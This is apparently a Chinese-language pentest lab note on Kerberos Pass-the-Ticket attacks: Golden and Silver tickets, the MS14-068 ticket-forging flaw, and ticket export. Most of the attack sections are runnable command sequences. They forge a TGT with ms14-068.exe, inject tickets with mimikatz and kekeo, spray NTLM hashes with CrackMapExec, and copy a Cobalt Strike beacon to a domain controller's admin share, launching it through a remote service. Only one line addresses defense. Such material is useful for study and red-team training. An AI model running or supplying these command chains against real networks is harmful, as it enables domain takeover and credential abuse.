 PTT (Pass-the-Ticket): 传递票据，在域环境中，攻击者使用窃取的Kerberos票据进行身份验证。

哈希传递一般需要具备管理员权限，票据传递不需要具备管理员权限
在Kerberos认证中，用户通过认证后会获得一个票据授权票据（TGT），随后可以使用TGT来获取针对特定服务的服务票据（ST）。PTT攻击涉及攻击者获取这些票据，并使用它们来访问网络资源，而无需知晓账户的明文密码。
PTT攻击的常见形式包括：
1. **黄金票据（Golden Ticket）**：攻击者使用域的`krbtgt`账户的密码哈希来伪造TGT，这允许他们以任何用户身份获取ST并访问任何服务4。
2. **白银票据（Silver Ticket）**：攻击者伪造ST，通常需要目标服务账户的密码哈希，这允许他们访问特定的服务4。
3. **MS14-068**：这是一个利用Kerberos服务漏洞的攻击，允许攻击者创建假冒的TGT，该漏洞后来被微软的补丁KB3011780修复。

PTT攻击的关键在于攻击者能够获取或伪造Kerberos票据，而不需要实际的账户密码。这种攻击可以非常危险，因为它允许攻击者在不触发典型警报的情况下，获取对敏感网络资源的访问权限。



## **利用漏洞ms14068伪造票据**
利用漏洞ms14068伪造用户身份TGT票据。等同于web中cookie伪造，直接登录后台。
MS14-068是密钥分发中心（KDC）服务中的windows漏洞。
它允许经过身份验证的用户在其Kerberos票证（TGT）中插入任意PAC。
该漏洞位于kdcsvc.dll域控制器的密钥分发中心（KDC）中。
用户可以通过呈现具有改变的PAC的KerberosTGT来获得票证。

普通域内用户，如webadmin
伪造域内用户和域控的会话，实现无需域控账号密码，连接域控，上线域控。
CS中跳板机命令：
```
测试直接创建IPC隧道，此时是需要输入账号密码的，利用漏洞，无需输入账号密码。
shell net use \\OWA2010CN-GOD\C$

获取用户的SID值，如S-1-5-21-1218902331-2157346161-1782232778-1132
shell whoami/user

权限低 如webadmin，就将ms14-068.exe上传跳板机。权限高可以尝试代理转发socks到本地运行。
准备当前用户的用户名，SID，密码，域控主机IP。
伪造生成当前的票据文件TGT_webadmin@god.org.ccache，有效期10小时。
shell ms14-068.exe -u webadmin@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1132 
-d 192.168.3.21 -p admin!@#45

伪造的票据文件放入跳板机的桌面目录

查看当前已有票据会话
shell klist
清除当前所有票据连接
shell klist purge

将桌面目录的伪造票据导入内存
mimikatz kerberos::ptc TGT_webadmin@god.org.ccache

查看当前已有票据会话，此时有了webadmin和krbtgt/GOD.ORG域控主机的会话
shell klist

用新身份进行IPC连接域控（无需输入域控密码了） 并新上线
shell dir \\OWA2010CN-GOD\C$
shell net use \\OWA2010CN-GOD\C$
copy beacon.exe \\OWA2010CN-GOD\C$

sc \\OWA2010CN-GOD create bindshell binpath="c:\beacon.exe"
sc \\OWA2010CN-GOD start bindshell
```
防御：域控主机打补丁MS14-068


## **利用NTLM哈希生成票据**
hash可以PTH攻击，但利用需要这些smb wmi 协议是正常，不正常就可以利用票据。
利用票据需要高权限，需找到域控主机账号的NTLM哈希。
因为当前主机肯定之前与其他主机连接过，所以本地应该生成了一些票据，
我们可以利用hash导出这些票据，然后再导入票据，利用。
该方法类似于cookie欺骗。
缺点：票据是有有效期的有效期10小时，所以如果当前主机在连接过域控的话，有效期内可利用。

CS中跳板机命令
```
kekeo.exe上传跳板机
找到域控的hash和账号 生成新的票据导出
shell kekeo "tgt::ask /user:Administrator /domain:god.org /ntlm:ccef208c6485269c20db2cad21734fe7" "exit"

清除当前所有票据连接
shell klist purge

导入票据
shell kekeo "kerberos::ptt TGT_Administrator@GOD.oRG_krbtgt~god.org@GOD.ORG.kirbi" "exit" 
ntlmhashpth攻击pthsmbwmips利用需要这些smbwmi协议是正常不正常就可以利用票据

查看票据会话
shell klist

shell dir \\owa2010cn-god\c$
```

**CME进行HASH喷洒**
21到32的ip批量比对hash值对应的主机账号，是否域控账号，再手工用hash导出生成票据。
```
proxychains python cme smb 192.168.3.21-32 -u user.txt -H 518b98ad4178a53695dc997aa02d455c #域用户HASH登录
proxychains python cme smb 192.168.3.21-32 -u administrator -H 518b98ad4178a53695dc997aa02d455c --local-auth #本地用户HASH登录
```

## **利用mimikatz导出历史票据**
需高权限，有域控管理员账号密码登陆认证过这台跳板机中有票据Ticket，且在有效期，一般10小时。

CS中跳板机命令
```
导出所有历史连接过的票据(无法清空)
mimikatz sekurlsa::tickets /export

导入票据
mimikatz kerberos::ptt C:\Users\webadmin\Desktop\[0;22d3a]-2-1-40e00000-Administrator@krbtgt-god.org.kirbi

查看票据会话有没有
shell klist

有会话则连接
shell dir \\owa2010cn-god\c$
```